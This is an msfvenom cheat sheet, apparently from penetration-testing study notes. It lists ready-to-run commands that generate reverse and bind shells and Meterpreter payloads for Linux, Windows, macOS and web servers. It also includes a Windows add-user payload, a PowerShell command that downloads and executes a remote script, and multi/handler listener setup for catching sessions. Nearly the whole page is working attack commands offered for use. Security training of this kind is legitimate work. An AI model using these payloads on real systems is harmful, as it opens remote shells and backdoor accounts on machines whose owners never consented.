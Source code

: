 ```yaml
---
title : "Msfvenom"
# pre : ' '
description : " Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit."
date : 2021-02-08T09:52:22+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Msfvenom

Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.

## Flags

MSFVenom Payload Generation One-Liner | Description
| :------------- | :----------- |
msfvenom -l payloads | List available payloads
msfvenom -p PAYLOAD –list-options | List payload options
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP | Payload Encoding
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux reverse shell x64 single stage
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter reverse shell
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36” -f exe > shell.exe | Windows Meterpreter http reverse shell
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter bind shell
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Multi Stage
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Single Stage
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe | Windows add user
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho | Mac Reverse Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho | Mac Bind shell
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py | Python Shell
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh | BASH Shell
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl | PERL Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp | ASP Meterpreter shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp | JSP Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war | WAR Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php | pbcopy && echo '?php '
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php | Php Reverse Shell
msfvenom -a x86 –platform Windows -p windows/exec CMD="powershell \“IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')"” -f python | Windows Exec Nishang Powershell in python
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b “\x04\xA0” | Bad characters shikata_ga_nai
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b “\x04\xA0” | Bad characters fnstenv_mov

## Examples

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,

```plain
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.

## URL List

- [Thor-sec.com - msfvenom cheat sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)
